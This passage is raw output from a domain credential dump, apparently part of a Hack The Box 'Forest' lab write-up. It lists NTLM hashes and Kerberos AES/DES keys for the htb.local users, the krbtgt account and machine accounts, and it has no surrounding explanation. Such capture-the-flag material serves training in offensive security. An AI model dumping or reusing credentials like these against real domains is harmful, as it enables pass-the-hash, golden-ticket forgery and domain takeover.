htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
jack:8101:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
jack:aes256-cts-hmac-sha1-96:0c056395222d2580f23cc03fec73978b1ab229098914d4ec75862f6d7f340613
jack:aes128-cts-hmac-sha1-96:0d6ed10cbd2425a5ae427fee32e4af12
jack:des-cbc-md5:d93408c7b0295dce
FOREST$:aes256-cts-hmac-sha1-96:cc920f9f7769e0428c6c385f247400f557bcb76ff8752b589e6c4e2a179110e9
FOREST$:aes128-cts-hmac-sha1-96:30a27124a0d2741893dacf46bca17b18
FOREST$:des-cbc-md5:730d104a70293402
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```
